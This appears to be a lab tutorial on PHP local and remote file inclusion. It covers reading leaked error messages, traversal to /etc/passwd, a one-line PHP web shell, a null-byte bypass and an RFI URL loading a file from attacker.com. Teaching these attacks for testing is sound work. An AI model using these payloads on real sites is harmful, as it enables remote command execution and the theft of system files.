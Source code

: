 # File Inclusion

### File Include Vulnerabilities

In a lot of applications, developers need to include files to load classes or to share templates between multiple web pages.

File include vulnerabilities come from a lack of filtering when a user-controlled parameter is used as part of a file name in a call to an including function (`require`, `require_once`, `include` or `include_once` in PHP for example). If the call to one of these methods is vulnerable, an attacker will be able to manipulate the function to load his own code. File include vulnerabilities can also be used as a directory traversal to read arbitrary files. However, if the arbitrary code contains an opening PHP tag, the file will be interpreted as PHP code.

This including function can allow the loading of local resources or  remote resource (a website, for example). If vulnerable, it will lead to:

- **Local File Include (LFI):** A local file is read and interpreted.
- **Remote File Include (RFI):** A remote file is retrieved and interpreted.

By default, PHP disables loading of remote files, thanks to the configuration option: `allow_url_include`. In the ISO, it has been enabled to allow you to test it.

In this first example, you can see an error message, as soon as you inject a special character (a quote, for example) into the parameter:

```
Warning: include(intro.php'): failed to open stream: No such file or directory in /var/www/fileincl/example1.php on line 7 Warning: include(): Failed opening 'intro.php'' for inclusion (include_path='.:/usr/share/php:/usr/share/pear') in /var/www/fileincl/example1.php on line 7
```

If you read the error message carefully, you can extract a lot of information:

- The path of the script: `/var/www/fileincl/example1.php`.
- The function used: `include()`.
- The value used in the call to `include` is the value we injected `intro.php'` without any addition or filtering.

We can use the methods used to detect directory traversal, to detect file include. For example, you can try to include `/etc/passwd` by using the `../` technique.

```
From:
www.example.com/?page=index.php
To:
www.example.com/?page=../../../etc/passwd
```


If this works, then we can try loading the following inside a file to execute a command:

> :warning: **Fun Fact:** Putting this in a file will set off a variety of endpoint defense solutions
```php
<?php 
  system($_GET['c']);
?>
```

This is then invoked with: ```https://www.example.com/?page=maliciousfile.txt&c=command```

If the site adds a prefix, this can potentially be removed with a null byte ```%00``` (if their PHP version is lower than 5.3.4). For RFI, you can get rid of the suffix, by adding `&blah=` or `?blah=` depending on your URL:

```http://target.com/?page=http://attacker.com/maliciousfile.txt%00&c=command```

